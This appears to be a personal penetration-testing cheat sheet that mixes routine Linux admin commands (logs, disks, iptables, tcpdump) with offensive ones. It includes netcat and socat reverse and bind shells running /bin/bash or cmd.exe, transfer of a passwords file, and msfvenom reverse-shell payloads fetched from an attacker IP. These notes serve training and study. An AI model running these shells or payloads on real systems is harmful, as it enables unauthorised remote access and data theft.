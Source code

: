 ### Show logger
who  
last  
/var/log 检查日志

### Disk Partition
lsblk  
sudo fdisk -l

### Show network connections
netstat -natup  
ss -natup

### Copy file from remote machine to local tmp
scp john@localhost:/var/tmp/CopyMe.txt /tmp  
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2  
scp -P 2222 student@192.168.79.112:/usr/share/kali-defaults/web/img/password.png /home/kali/

### echo current shell
echo $SHELL

### echo environmental variable
env

### NC transfering files
```
nc -lvnp 6666 > incoming.txt
nc -nv 192.168.65.61 6666 < incoming.txt
```

### NC bind shell
```
nc -nlvp 4444 -e cmd.exe
nc -nv 10.11.0.22 4444
```

### NC reverse shell
```
nc -nlvp 4444
nc -nv 10.11.0.22 4444 -e /bin/bash
```

### Socat connect remote machine
```
socat - TCP4:ip-address:80
```

### Socat transfer files
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt  
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

### Socat reverse shell
```
socat -d -d TCP4-LISTEN:443 STDOUT(shell listener)
socat TCP4:10.11.0.22:443 EXEC:/bin/bash
socat - TCP4:172.16.53.20:456(shell connection)
```

### FTP(permitted commands:ls,mkdir,put file, get file)
```
anonymous login: ftp ip; username:anonymous;password:blank; 
ascii mode: ascii
binary mode: bin
```

### IPTables
```
sudo iptables -L (show iptables) --line-numbers(optional)
Append a rule to the INPUT chain for a source network of 192.168.1.0/24 for all protocols: sudo iptables -s 192.168.1.0/24 -p all -A(append)/D(delete)/I(insert) INPUT
sudo iptables -s 127.0.0.1 -d 127.0.0.1 -A INPUT
sudo iptables -s 192.168.1.37 -p tcp -A INPUT
sudo iptables -D INPUT 5(linenumber)
sudo iptables -nvL(show traffic)
sudo iptables -P FOWARD DROP(change default policy of forward to drop)
sudo iptables -R(replace) INPUT 1 -s 192.168.1.37 -d 127.0.0.1 -p tcp --dport 8080
Final: sudo iptables-save
```

#### stateful firewall
**INVALID**: The packet is associated with no known connection.  
**NEW**: The packet has started a new connection or otherwise associated with a connection that has not seen packets in both directions.  
**ESTABLISHED**: The packet is associated with a connection that has seen packets in both directions.  
**RELATED**: The packet is starting a new connection, but is associated with an existing connection, such as an FTP data transfer or an ICMP error.  
**UNTRACKED**: The packet is not tracked at all, which happens if you explicitly un-track it by using -j CT --notrack in the raw table.  
```
sudo iptables -I INPUT 1 -m conntrack --ctstate RELATED,ESTABLISHED -j ACCEPT
sudo iptables -I INPUT 2 -m conntrack --ctstate INVALID -j DROP
sudo iptables -L --line-numbers
```
### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  
msfvenom -p linux/x86/shell_reverse_tcp --list-options  
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  
> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.

### Tcpdump
sudo tcpdump -i any -w file.pcap

### Find
find /usr -type f -exec md5sum {} + | grep "d61d579501ab8ff507120780191929d5"
> find only files under usr with hash value d61----
